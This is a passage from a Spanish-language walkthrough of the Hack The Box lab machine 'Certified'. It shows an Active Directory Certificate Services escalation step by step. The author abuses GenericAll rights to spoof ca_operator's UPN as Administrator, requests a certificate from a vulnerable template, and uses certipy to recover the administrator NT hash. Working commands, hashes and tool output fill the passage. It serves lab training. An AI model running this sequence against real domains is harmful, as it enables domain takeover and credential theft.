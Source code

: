 - Vamos a obtener el hash del `administrator` para esto vamos a comenzar haciendo es que desde `management_svc` que tenemos `GenericAll` sobre `ca_operator` podemos cambiar el `UserPrincipalName` es un identificador de usuario con el formato usuario@dominio.com de `ca_operator` a `Administrator`.

```bash
❯ certipy account update -u management_svc -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator -dc-ip 10.10.11.41
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : Administrator
[*] Successfully updated 'ca_operator'
```

- Ahora vamos a solicitar un certificado como `ca_operator` usando el `template` vulnerable ya que se supone que el UPN ha cambiado.

```bash
❯ certipy req -u ca_operator -hashes :b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.10.11.41
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

- Ahora debemos cambiar el `UPN` del usuario al original.

```bash
❯ certipy account update -u management_svc -hashes :a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@certified.htb -dc-ip 10.10.11.41
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator'
```

- Ahora nos autenticamos y obtenemos el hash del `administrator`.

```bash
❯ certipy auth -pfx administrator.pfx -dc-ip 10.10.11.41 -domain certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```
